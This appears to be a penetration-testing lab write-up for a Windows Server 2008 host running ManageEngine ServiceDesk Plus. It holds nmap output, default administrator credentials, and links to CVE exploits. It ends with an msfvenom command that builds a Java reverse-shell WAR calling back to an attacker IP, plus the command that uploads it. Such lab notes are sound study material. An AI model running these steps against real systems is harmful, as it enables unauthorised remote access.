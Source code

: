 _____

>[!INFO]
> IP=192.168.209.43
> Windows

# Nmap
| PORT   | STATE | SERVICE        |
|--------|-------|----------------|
| 135/tcp| open  | msrpc          |
| 139/tcp| open  | netbios-ssn    |
| 445/tcp| open  | microsoft-ds   |
|3389/tcp| open  | ms-wbt-server  |
|8080/tcp| open  | http-proxy     |


```python
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Windows Server (R) 2008 Standard 6001 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp open  ms-wbt-server Microsoft Terminal Service
8080/tcp open  http          Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
| http-cookie-flags: 
|   /: 
|     JSESSIONID: 
|_      httponly flag not set
|_http-title: ManageEngine ServiceDesk Plus
Service Info: Host: HELPDESK; OS: Windows; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_server_2008:r2

Host script results:
| smb-os-discovery: 
|   OS: Windows Server (R) 2008 Standard 6001 Service Pack 1 (Windows Server (R) 2008 Standard 6.0)
|   OS CPE: cpe:/o:microsoft:windows_server_2008::sp1
|   Computer name: HELPDESK
|   NetBIOS computer name: HELPDESK\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-02-05T12:50:05-08:00
| smb2-security-mode: 
|   2:0:2: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: HELPDESK, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:ba:ac:55 (VMware)
|_clock-skew: mean: -3h19m50s, deviation: 4h37m07s, median: -5h59m50s
| smb2-time: 
|   date: 2024-02-05T20:50:05
|_  start_date: 2024-02-05T20:47:49
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```

# 8080 - http

ManageEngine ServiceDesk Plus

**administrator**:**administrator**

https://github.com/horizon3ai/CVE-2021-44077


https://github.com/PeterSufliarsky/exploits/blob/master/CVE-2014-5301.py

```bash
msfvenom -p java/shell_reverse_tcp LHOST=192.168.45.182 LPORT=4444 -f war > shell.war
python3 cve.py $IP 8080 administrator administrator shell.war
```
